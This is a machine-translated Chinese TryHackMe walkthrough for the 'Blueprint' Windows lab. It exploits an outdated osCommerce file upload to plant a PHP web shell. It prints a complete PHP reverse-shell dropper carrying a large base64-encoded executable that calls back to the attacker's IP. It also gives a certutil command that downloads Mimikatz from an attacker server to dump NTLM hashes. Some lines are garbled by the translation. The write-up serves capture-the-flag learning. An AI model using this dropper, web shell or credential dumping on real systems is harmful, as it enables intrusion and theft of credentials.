# 蓝图 Walkthrough[❌Metasploit ❌]

> 原文：<https://infosecwriteups.com/blueprint-walkthrough-metasploit-b37964edfe0c?source=collection_archive---------1----------------------->

## 在没有 Metasploit 的 TryHackMe 上解决 Windows 机器。



蓝图机



# 描述

[蓝图](https://tryhackme.com/room/blueprint)是在 [TryhackMe](https://tryhackme.com/) 上的一款易级 Windows 机。该机器是一台 Windows 7 机器，在端口 8080 上托管一个 web 服务器。那个网络服务器运行的是过时版本的 **OsCommerce** 。该过时版本存在一个任意文件上传漏洞，该漏洞已被用于上传 web 外壳。最后，这个 web shell 已经被用来在具有系统特权的机器上获得一个稳定的 shell，并且 **Mimikatz** 已经被用来寻找使用散列。

# 列举

首先，让我们开始一次 **NMAP** 扫描

```
**sudo nmap -sC -sV -O 10.10.242.9 -oN nmap/inital -vv**Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2021-07-16 18:08 IST
Nmap scan report for 10.10.43.103
Host is up (0.25s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
**80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)**
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
**135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h** PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
**445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack** 1 microsoft-ds (workgroup: WORKGROUP)
**3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h** PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
***|_http-title: Index of /***
**49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC**
Service Info: Hosts: [www.example.com](http://www.example.com), BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
|_clock-skew: mean: -19m54s, deviation: 34m37s, median: 4s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:42:5a:d3:59:a3 (unknown)
| smb-os-discovery: 
|   OS: **Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)**
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-16T13:40:18+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-16T12:40:20
|_  start_date: 2021-07-16T12:34:54Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 138.52 seconds
```

NMAP 扫描显示有几个端口是开放的。

*   在端口 80 上，我们没有发现任何有趣的东西



*   在扫描中我们可以看到，在端口 8080 上，我们有标题**的索引，这可能很有趣，让我们看看**

********

**事实上，我们在这里启用了文件列表。因此，我们更进一步，看看这个版本的 **OSCommerce** 是否存在公开的漏洞**

**我们可以使用 **SearchSploit** (在 ExploitDB 上搜索的命令行工具)来查找可用的漏洞。**

****

**我们有两个漏洞可用 **Arbitartay 文件上传**和**远程代码执行。**我们将利用文件上传漏洞继续深入。**

# **剥削**

**要在服务器上上传文件，我们需要使用提供的仪表板创建一个帐户。**

****

**点击“开始”,然后相应地创建一个用户**

**在安装过程中，我对数据库使用了用户名“root”和空白密码。此外，还创建了一个管理员用户，用户名和密码为“admin”**

************

**记住用户名和密码，以便在接下来的步骤中使用**

**现在我们在应用程序中有了一个用户，让我们上传一个简单的 PHP web shell。**

**你可以使用一行 PHP 外壳，并将其保存为 Shell.php**

## **& 1’)；？>**

**我们使用 **shell_exec()** 而不是 **system()** ，因为 **system()** 命令被服务器阻塞了**

****

```
**python /usr/share/exploitdb/expoits/php/webapps/43191.py -u [http://YOUR_MACHINE_IP/oscommerce-2.3.4](http://YOUR_MACHINE_IP/oscommerce-2.3.4) --auth=admin:admin_password -f Shell.php**
```

**您的 shell 现在将被上传到服务器，您可以访问它来运行命令。**

****

**dir 命令列出目录。**

**我们找到了系统信息，这将有助于我们进一步的攻击。这里的系统是一台 **x86 Windows 机器****

****

# **获得稳定的外壳**

**目前，我们已经在系统上有了一个初步的立足点，我们将利用它来拥有一个成熟的外壳，这将帮助我们运行更多的系统命令。**

**我们将创建一个 PHP 文件，它将为我们的系统提供一个反向 shell。为此，我们将使用下面的[脚本](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)**

```
**<?php

header('Content-type: text/plain');
$ip   = "YOUR_IP"; //change this 
$port = "1234"; //change this
$payload = "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";
$evalCode = gzinflate(base64_decode($payload));
$evalArguments = " ".$port." ".$ip;
$tmpdir ="C:\\windows\\temp";
chdir($tmpdir);
$res .= "Using dir : ".$tmpdir;
$filename = "D3fa1t_shell.exe";
$file = fopen($filename, 'wb');
fwrite($file, $evalCode);
fclose($file);
$path = $filename;
$cmd = $path.$evalArguments;
$res .= "\n\nExecuting : ".$cmd."\n";
echo $res;
$output = system($cmd);

?>**
```

**现在像我们上传前一个文件一样上传这个文件。**

****

**在指定的端口上启动监听器，然后从浏览器中获取反向 Shell 文件。现在，您将拥有一个功能齐全的反向外壳。**

# **寻找旗帜**

**现在是寻找旗帜的主要部分。我们的问题是**

*   **“实验室”用户 NTML 哈希已解密**
*   **root.txt**

**首先，让我们首先找到**实验室**用户的 **NTLM** 散列。为此，我们将使用 **Mimikatz** 它是**一款领先的后利用工具，可以从内存中转储密码和** **哈希**、**pin**以及 Kerberos 票证。**

**这里最大的问题是，如何在服务器上安装 Mimikatz，因为我们没有 Netcat 和 Curl 这样的服务来下载文件？。**

**为此，我们将使用**Certutil.exe**这是**一个命令行程序**，作为证书服务的一部分安装。我们可以用它从其他服务器获取文件**

**我们将首先在当前目录中获取 x86 版本的 Mimikatz，然后启动一个简单的 python HTTP 服务器。然后在目标机器上设置 certutil.exe 来获取我们的托管文件。使用以下命令启动 Certutil。**

> **$ CP/usr/share/mimikatz/Win32/mimikatz . exe。**

****certutil.exe-URL cache-f**[**http://YOUR _ IP:8000/mimikatz . exe**](http://10.17.11.91:8000/mimikatz.exe)**mimi.exe****

****

**来自目标机器的 HTTP 交互**

**现在我们可以运行 Mimikatz 来转储机器上所有用户的 NTLM 散列**

****

**去像 [Crackstation](https://crackstation.net/) 这样的网站破解哈希值。**

****

**最后，我们需要获得 root.txt 标志。这通常在管理员的桌面上。更改那里的目录向我们展示了标志文件。使用 **more** 命令显示内容，并提交给仪表板。**

> **光盘 C:\用户\管理员\桌面**
> 
> **更多 root.txt.txt**

